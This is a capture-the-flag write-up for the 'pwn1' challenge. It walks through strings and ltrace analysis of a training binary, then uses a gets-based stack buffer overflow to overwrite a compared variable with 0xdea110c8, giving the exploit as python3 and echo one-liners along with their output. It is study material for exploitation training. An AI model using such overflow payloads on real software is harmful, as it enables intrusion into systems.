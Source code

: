 # pwn1 writeup

- Running strings on it:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ strings ./pwn1
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
exit
fopen
puts
putchar
stdin
fgets
stdout
__cxa_finalize
setvbuf
_IO_getc
strcmp
__libc_start_main
GLIBC_2.1
GLIBC_2.1.3
GLIBC_2.0
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
UWVS
[^_]
Right. Off you go.
flag.txt
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
I don't know that! Auuuuuuuugh!
What... is your quest?
To seek the Holy Grail.
What... is my secret?
```


- Playing with the binary a little...

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Lmao
I don't know that! Auuuuuuuugh!
```

- So let's use some juicy strings we found in `strings` output and put them in:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
dunnoman
I don't know that! Auuuuuuuugh!
```

- It appears to be some kind of secret involved that we need to figure out.
- See the output of `ltrace`:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ ltrace ./pwn1 > /dev/null
__libc_start_main(0x63fb3779, 1, 0xff95fab4, 0x63fb38f0 <unfinished ...>
setvbuf(0xed42ada0, 0x2, 0, 0)                                                                = 0
puts("Stop! Who would cross the Bridge"...)                                                   = 107
puts("What... is your name?")                                                                 = 22
fgets(Sir Lancelot of Camelot
"Sir Lancelot of Camelot\n", 43, 0xed42a620)                                            = 0xff95f9ad
strcmp("Sir Lancelot of Camelot\n", "Sir Lancelot of Camelot\n")                              = 0
puts("What... is your quest?")                                                                = 23
fgets(To seek the Holy Grail.
"To seek the Holy Grail.\n", 43, 0xed42a620)                                            = 0xff95f9ad
strcmp("To seek the Holy Grail.\n", "To seek the Holy Grail.\n")                              = 0
puts("What... is my secret?")                                                                 = 22
gets(0xff95f9ad, 0x63fb3a63, 0xed42a620, 0dunno
)                                                   = 0xff95f9ad
puts("I don't know that! Auuuuuuuugh!")                                                       = 32
+++ exited (status 0) +++
```

- It grabs our input with __`gets`__ function, __which is a major red flag!__
- As you can see supplying an input far beyond the character limit we can crash the program:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
I don't know that! Auuuuuuuugh!
Segmentation fault (core dumped)
```

- Supplying this input `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD` into `gets`:

```sh
gef➤  x/wx $ebp-0x10
0xffffcf98:     0x44434241
```

- It gets overwritten (in reverse due to LE) with `0x44434241`
- ~~So to get the flag we need to give it: `\x38\xef\x5e\x21`~~
- *As a side note, it's best to see the assembly instead of trusting ghidra, as ghidra can show the same value in different representations, thus it can be confusing which value to use for overflow.*
- This is memory location of the `target_variable` that we need to overwrite with ~~`-0x215eef38`~~

```asm
   0x565557b4 <+59>:    mov    DWORD PTR [ebp-0x10],0x0
```

- This is decompiled `main` function from ghidra

![mainfunc](scrs/mainfunc.png)

![mainfunc2](scrs/mainfunc2.png)

- You can clearly see that `target_variable` is right under the buffer that is 43 bytes long.
- __This is the `cmp` in assembly that checks to see if we overflowed it with right value:__

```asm
   0x000008b2 <+313>:   cmp    DWORD PTR [ebp-0x10],0xdea110c8
```

- Let's overflow it so that it contains the correct value it requires:

- So because it has annoying logic, we must supply input in a file and feed it into the program.
- I've already put first two strings it compares:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ cat input.txt
Sir Lancelot of Camelot
To seek the Holy Grail.
```

- The only thing left is to append the last input to our `input.txt`

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ python3 -c "import sys; sys.stdout.buffer.write(b'\xc8\x10\xa1\xde')" >> input.txt
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ hexdump input.txt
0000000 6953 2072 614c 636e 6c65 746f 6f20 2066
0000010 6143 656d 6f6c 0a74 6f54 7320 6565 206b
0000020 6874 2065 6f48 796c 4720 6172 6c69 0a2e
0000030 10c8 dea1
0000034
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ cat input.txt | ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
I don't know that! Auuuuuuuugh!
```

- This however doesn't work as expected.
- Turns out I've completely forgotten that I need to actually overflow the buffer by prepending the right value with 43 characters.
- Here is the correct solution:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ python3 -c "import sys; sys.stdout.buffer.write(b'\x41'*43+b'\xc8\x10\xa1\xde')" >> input.txt
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ hexdump input.txt
0000000 6953 2072 614c 636e 6c65 746f 6f20 2066
0000010 6143 656d 6f6c 0a74 6f54 7320 6565 206b
0000020 6874 2065 6f48 796c 4720 6172 6c69 0a2e
0000030 4141 4141 4141 4141 4141 4141 4141 4141
*
0000050 4141 4141 4141 4141 4141 c841 a110 00de
000005f
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/pwn1$ cat input.txt | ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz}
```

- Another way to solve this challenge is to just do everything in python3 using `sys` module:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/pwn1$ python3 -c 'import sys; sys.stdout.buffer.write(b"Sir Lancelot of Camelot\nTo seek the Holy Grail.\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc8\x10\xa1\xde");' | ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz}

```

- Or even simpler way with `echo` command:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/simple_bof/pwn1$ echo -ne "Sir Lancelot of Camelot\nTo seek the Holy Grail.\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc8\x10\xa1\xde" | ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz}
```
